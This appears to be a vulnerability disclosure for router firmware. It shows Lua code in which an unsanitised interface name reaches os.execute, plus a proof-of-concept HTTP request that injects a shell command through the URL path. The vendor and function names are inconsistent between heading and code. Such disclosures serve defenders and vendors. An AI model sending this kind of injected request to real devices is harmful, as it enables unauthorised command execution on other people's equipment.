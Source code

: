 # Command injection vulnerability in api_connect function
### description
Vendor: Totolink 

Version: linksysFW_E7350_V1.1.00.032_Prod_20220902_code.bin   

Detail: There is a command injection vulnerability in api_connect function in mtkwifi.lua

```
function apcli_connect(dev, vif)
 local dtrace = require "luci.debug";
 dtrace.trap_function_calls("apcli_connect");
    -- dev_vif can be
    --  1. mt7620.apcli0         # simple case
    --  2. mt7615e.1.apclix0     # multi-card
    --  3. mt7615e.1.2G.apclix0  # multi-card & multi-profile
    local devname,vifname = dev, vif
    debug_write("devname=", dev, "vifname=", vif)
    local profiles = mtkwifi.search_dev_and_profile()
    debug_write(profiles[devname])
    assert(profiles[devname])
    local cfgs = mtkwifi.load_profile(profiles[devname])
    cfgs.ApCliEnable = "1"
    __mtkwifi_save_profile(cfgs, profiles[devname], true)
    os.execute("ifconfig "..vifname.." up") ---------------------------->  here
```

We use Burpsuite to attack, the effect is as follows.
![图片](https://github.com/user-attachments/assets/996f6494-a645-407a-a328-3d502b7ad7d5)

![图片](https://github.com/user-attachments/assets/329e2f84-e79f-4f3d-af33-6947202b0dd2)

Entry: /admin/mtk/wifi/apcli_connect/

! attention
To expolit successfully, we need the correct devname to pass the check. 
```
    local profiles = mtkwifi.search_dev_and_profile()
    debug_write(profiles[devname])
    assert(profiles[devname])  ----------------->
```
here we use dev "MT7915D.1.1"


### poc
```
GET /cgi-bin/luci/admin/mtk/wifi/apcli_connect/MT7915D.1.1/;ifconfig>a.txt; HTTP/1.1
Host: 172.17.0.2
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Authorization: Basic YWRtaW46
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i


```
Here we set the arguments "dev" as "MT7915D.1.1" and vif as ";ifconfig>a.txt;", and there will be a file named "a.txt" in /www/




